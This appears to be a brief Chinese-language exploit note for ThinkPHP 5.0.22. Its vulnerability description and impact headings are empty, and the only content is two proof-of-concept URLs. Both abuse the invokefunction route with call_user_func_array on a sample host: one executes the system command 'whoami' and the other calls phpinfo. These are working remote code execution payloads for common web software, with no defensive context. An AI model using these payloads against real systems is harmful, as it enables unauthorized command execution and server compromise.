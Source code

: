 ```yaml
---
title: Thinkphp 5.0.22
id: zhfly3155
---
```


# Thinkphp 5.0.22

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 1、poc

```
http://0-sec.org/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami 
```

### 2、poc

```
http://0-sec.org/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1 
```